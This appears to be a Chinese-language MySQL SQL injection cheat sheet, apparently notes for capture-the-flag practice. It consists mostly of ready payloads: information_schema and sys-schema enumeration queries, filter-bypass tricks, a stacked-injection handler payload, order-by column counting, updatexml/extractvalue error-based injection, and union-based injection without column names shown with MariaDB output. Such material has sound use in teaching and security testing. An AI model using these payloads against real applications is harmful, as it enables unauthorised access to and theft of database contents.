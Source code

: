# SQli

常规方法利用information_schema

```sql
#爆库
select database()
#爆表
select group_concat(table_name) from information_schema.tables where table_schema=<database name>
#爆字段
select group_concat(column_name) from information_schema.columns where table_name=<table name>
#爆数据
select group_concat(<column name>) from <table name>
```

mysql > 5.6 版本 利用sys库

```sql
# 爆表
# schema_auto_increment_columns

select group_concat(table_name)from sys.schema_auto_increment_columns where table_schema=database()--+

# schema_table_statistics_with_buffer

select group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database()--+
```

mysql > 5.5 利用``innodb_table_stats``

```sql
# 爆表
select group_concat(table_name) from mysql.innodb_table_stats
```

## 技巧

- 加``()、/**/`` bypass``空格``

- ``like`` bypass ``=``

- ``select .`` bypass 一般是堆叠注入

  利用set

  利用handler 

  ```
  1';handler `FlagHere` open;handler `FlagHere` read first;#
  ```

- 看回显点

  ```
  select 1,2,3,....
  ```

- 注释符

  - /**/
  - \# -> %23

  - -- 

- order by看字段数 先看看有几个回显点也可以用group by

  ```
  1' order by 3#
  ->
  
  1' order by 4#
  ->
  Error
  ```

- Union 联合注入

- limit

  ```
  limit i,n
  # tableName：表名
  # i：为查询结果的索引值(默认从0开始)，当i=0时可省略i
  # n：为查询结果返回的数量
  # i与n之间使用英文逗号","隔开
  ```

- 报错注入

  - ``updatexml(1,concat(1,(<SQLi>)),1)``
  - ``extractvalue(1,concat(1,<SQli>))``

- 无列名注入
  考虑这样的表格，使用select 1,2,3,4,5 union select * from persons可以得到一张新的表格

  ```
  MariaDB [test]> select * from persons;
  +------+----------+-----------+--------------+--------+
  | ID   | LastName | FirstName | Address      | Credit |
  +------+----------+-----------+--------------+--------+
  |    1 | Gates    | Bill      | Xuanwumen 10 |   NULL |
  |    1 | Gates    | Bill      | Xuanwumen 10 |   NULL |
  |    2 | Xill     | Hiler     | Like 10      | 100.67 |
  |    2 | Eki      | Hiler     | Nanfen 10    | 100.67 |
  +------+----------+-----------+--------------+--------+
  
  ->
  
  MariaDB [test]> select 1,2,3,4,5 union select * from persons;
  +------+-------+-------+--------------+--------+
  | 1    | 2     | 3     | 4            | 5      |
  +------+-------+-------+--------------+--------+
  |    1 | 2     | 3     | 4            |      5 |
  |    1 | Gates | Bill  | Xuanwumen 10 |   NULL |
  |    2 | Xill  | Hiler | Like 10      | 100.67 |
  |    2 | Eki   | Hiler | Nanfen 10    | 100.67 |
  +------+-------+-------+--------------+--------+
  ```

  然后就可以套娃拿数据了,注意``a``这个别名(任意内容)是必须的（新生成的表）

  ```
  MariaDB [test]> select `2` from (select 1,2,3,4,5 union select * from persons)a;          
  +-------+
  | 2     |
  +-------+
  | 2     |
  | Gates |
  | Xill  |
  | Eki   |
  +-------+
  ```

  或者也可以将数字换成别名 在反引号不可用的情况下

  ```
  MariaDB [test]> select b from (select 1,2 as b,3,4,5 union select * from persons)a;
  +-------+
  | b     |
  +-------+
  | 2     |
  | Gates |
  | Xill  |
  | Eki   |
  +-------+
  ```
